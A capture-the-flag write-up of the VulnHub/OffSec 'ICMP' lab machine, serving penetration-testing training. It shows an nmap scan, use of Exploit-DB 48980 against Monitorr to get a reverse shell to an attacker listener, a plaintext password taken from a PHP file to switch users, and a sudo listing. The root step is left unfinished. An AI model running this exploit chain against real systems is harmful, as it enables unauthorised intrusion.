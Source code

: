 ```yaml
---
description: VulnHub & OffSec ICMP machine writeup
cover: ../.gitbook/assets/image (20) (1).png
coverY: 0
---
```


# \[Intermediate] ICMP

### Recon

#### Services                                                                                                                                                               21ms  ✓&#x20;

```bash
─$ nmap -sC -sV -v -T5 icmp                                     
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 deb52389bb9fd41ab50453d0b75cb03f (RSA)
|   256 160914eab9fa17e945395e3bb4fd110a (ECDSA)
|_  256 9f665e71b9125ded705a4f5a8d0d65d5 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-title:             Monitorr            | Monitorr        
|_Requested resource was http://icmp/mon/
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Subdirs

<figure><img src="../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

#### Monitorr

<figure><img src="../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

\+ link on repo:

{% embed url="https://github.com/Monitorr/Monitorr" %}

### www-data

Exploit:&#x20;

{% embed url="https://www.exploit-db.com/exploits/48980" %}

{% code overflow="wrap" %}
```bash
$  python3 48980.py http://192.168.110.218/mon/ 192.168.49.110 4444
```
{% endcode %}

<pre class="language-bash"><code class="lang-bash">$ ncat -nvlp 4444 
<strong>www-data@icmp:/var/www/html/mon/assets/data/usrimg$ pwd
</strong>/var/www/html/mon/assets/data/usrimg
</code></pre>

### Privelege Escalation

#### www-data to fox

<mark style="color:red;">`pspy`</mark> <mark style="color:red;"></mark><mark style="color:red;"></mark> enum didn't gave me anything, so I checked machine for another users:

```bash
www-data@icmp:/var/www/html/mon/assets/data/usrimg$ ls /home    
ls /home
fox
www-data@icmp:/var/www/html/mon/assets/data/usrimg$ ls -lsa /home/fox
ls -lsa /home/fox
total 20
4 drwxr-xr-x 3 root root 4096 Dec  3  2020 .
4 drwxr-xr-x 3 root root 4096 Dec  3  2020 ..
0 lrwxrwxrwx 1 root root    9 Dec  3  2020 .bash_history -> /dev/null
4 drwx--x--x 2 fox  fox  4096 Dec  3  2020 devel
4 -rw-r--r-- 1 fox  fox    33 Feb 27 19:04 local.txt
4 -rw-r--r-- 1 root root   78 Dec  3  2020 reminder

```



Checking <mark style="color:orange;">`reminder`</mark> we get a hint:

```bash
www-data@icmp:/home/fox$ cat reminder

crypt with crypt.php: done, it works
work on decrypt with crypt.php: howto?!?
```

<pre class="language-php"><code class="lang-php">www-data@icmp:/home/fox$ cat devel/crypt.php
<strong>&#x3C;?php
</strong><strong>echo crypt('BUHNIJMONIBUVCYTTYVGBUHJNI','da'); 
</strong><strong>?>
</strong></code></pre>

```bash
www-data@icmp:/home/fox$ ls
ls
devel
local.txt
reminder
www-data@icmp:/home/fox$ su fox
su fox
Password: BUHNIJMONIBUVCYTTYVGBUHJNI

$ python -c 'import pty; pty.spawn("/bin/bash")'

fox@icmp:~$ whoami
whoami
fox
```

#### fox to root

<mark style="color:red;">`sudo -l:`</mark>

```bash
fox@icmp:~$ sudo -l 
sudo -l 
Matching Defaults entries for fox on icmp:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User fox may run the following commands on icmp:
    (root) /usr/sbin/hping3 --icmp *
    (root) /usr/bin/killall hping3

```

\~ soon \~
